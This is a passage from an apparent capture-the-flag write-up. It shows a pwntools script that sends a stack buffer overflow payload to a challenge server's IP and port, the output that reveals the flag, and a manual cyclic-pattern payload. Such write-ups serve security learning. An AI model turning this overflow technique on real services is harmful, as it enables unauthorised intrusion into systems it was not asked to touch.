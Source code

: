 Here’s the Python script for the exploit using **pwntools**:

```python
from pwn import *

def main():
    host = "94.72.112.248"
    port = 7001

    offset = 60
    target_value = 0x34333231  # Value to overwrite `local_c` ("1234" in ASCII)

    # Payload
    payload = b"A" * offset + p32(target_value)

    try:
        conn = remote(host, port)
      
        conn.sendline(payload)

        response = conn.recvall()
        print(f"[+] Response:\n{response.decode().strip()}")

        conn.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()
```
{: .nolineno }


Running the script successfully retrieves the flag:

```bash
└─$ python3 sol.py 
[+] Opening connection to 94.72.112.248 on port 7001: Done
[+] Receiving all data: Done (72B)
[*] Closed connection to 94.72.112.248 port 7001
[+] Response:
Enter a text please: Your flag is - r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}
```
{: .nolineno }


#### Manual exploitation

To exploit manually:

1. Use `pwn cyclic 60` to generate a 60-character pattern.
2. Append `"1234"` to create the payload:


```shell
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa1234
```
{: .nolineno }
